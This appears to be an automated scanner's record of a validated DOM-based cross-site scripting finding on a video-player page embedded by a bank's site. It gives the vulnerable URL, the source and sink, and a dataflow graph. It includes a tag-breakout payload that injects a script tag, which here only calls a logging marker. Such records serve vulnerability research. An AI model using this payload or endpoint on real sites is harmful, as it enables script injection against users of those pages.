 // Finding: 4dc014d8-e895-463d-9cae-b6be2f03a6e0
// Finding.url: https://eqa132ndue.eq.webcdn.example155.com/www50/eqa132ndue/jmc_pub/jmc_swf/player/player_3_2_0/onetag_t3.html?b=eqa132ndue.eq.webcdn.example155.com/www50/eqa132ndue/jmc_pub"></iframe></style></script></object></embed></textarea><script>taintfoxLog('d01f1a4431c346259d760f49d5b522b9')</script><!--/*/jmc_swf/player/&c=NDE1&m=NDE1&s={hp: 360,il: off,rb: off,rp: fit,sn: f,t,m,g,ti: off,wp: 640}&eqplcid=bImmTGeBDU6uZhzqghycEWJJEfJF8vM3&eqplsid=pMaN676hkvtKVyf7UdstjQzqa5Au9o8a&default_quality=2&parent_url=https://www.shinseibank.com/powerflex/shintaku/&domain=https://www.shinseibank.com/powerflex/shintaku/?intcid=top_pdt_000_33&CookieDomain=.shinseibank.com&useShortcutKey=on&tagType=player_3_2_0
// Finding.parentloc: https://eqa132ndue.eq.webcdn.example155.com/www50/eqa132ndue/jmc_pub/jmc_swf/player/player_3_2_0/onetag_t3.html?b=eqa132ndue.eq.webcdn.example155.com/www50/eqa132ndue/jmc_pub"></iframe></style></script></object></embed></textarea><script>taintfoxLog('d01f1a4431c346259d760f49d5b522b9')</script><!--/*/jmc_swf/player/&c=NDE1&m=NDE1&s={hp: 360,il: off,rb: off,rp: fit,sn: f,t,m,g,ti: off,wp: 640}&eqplcid=bImmTGeBDU6uZhzqghycEWJJEfJF8vM3&eqplsid=pMaN676hkvtKVyf7UdstjQzqa5Au9o8a&default_quality=2&parent_url=https://www.shinseibank.com/powerflex/shintaku/&domain=https://www.shinseibank.com/powerflex/shintaku/?intcid=top_pdt_000_33&CookieDomain=.shinseibank.com&useShortcutKey=on&tagType=player_3_2_0
// Finding.domain: eqa132ndue.eq.webcdn.example155.com
// Finding.base_domain: example155.com
// Finding.source: location.search
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: <synthetic>
// Sanitizer.location: example18.com
// Finding.begin: 101
// Finding.end: 108
// Finding.original_uuid: 4d14faa2-2aaf-495b-a6c7-4f7eaeeb88fd
// Finding.TwentyFiveMillionFlowsId: -1173928792
// Finding.script: https://eqa132ndue.eq.webcdn.example155.com/www50/eqa132ndue/jmc_pub/jmc_swf/player/t3/inner.js
// Finding.line: 1
// Exploit.uuid: d01f1a44-31c3-4625-9d76-0f49d5b522b9
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: link
// Exploit.break_out: jmc_pub"></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: jmc_pub"></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 163
// Exploit.end_taint_url: 170
// Exploit.replace_begin_url: 163
// Exploit.replace_end_url: 170
// Exploit.replace_begin_param: 81
// Exploit.replace_end_param: 88
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: true
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1272535491
// DepGraph.sanitizer_hash: -538806443
// Merged split and join statements 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="substr"];
n2 [shape=box, label="Var: x"];
n3 [shape=box, label="Lit: 1"];
n4 [shape=ellipse, label="split"];
n5 [shape=box, label="Lit: &"];
n6 [shape=box, label="Var: x"];
n7 [shape=ellipse, label="split"];
n8 [shape=box, label="Lit: ="];
n9 [shape=box, label="Var: x"];
n10 [shape=ellipse, label="decodeURIComponent"];
n11 [shape=box, label="Var: x"];
n12 [shape=ellipse, label="preg_replace"];
n13 [shape=box, label="RegExp: /\//"];
n14 [shape=box, label="Lit: /"];
n15 [shape=box, label="Var: x"];
n16 [shape=box, label="Var: x"];
n17 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n1 -> n3;
n6 -> n1;
n4 -> n5;
n4 -> n6;
n9 -> n4;
n7 -> n8;
n7 -> n9;
n11 -> n7;
n10 -> n11;
n15 -> n10;
n12 -> n13;
n12 -> n14;
n12 -> n15;
n16 -> n12;
n17 -> n16;
}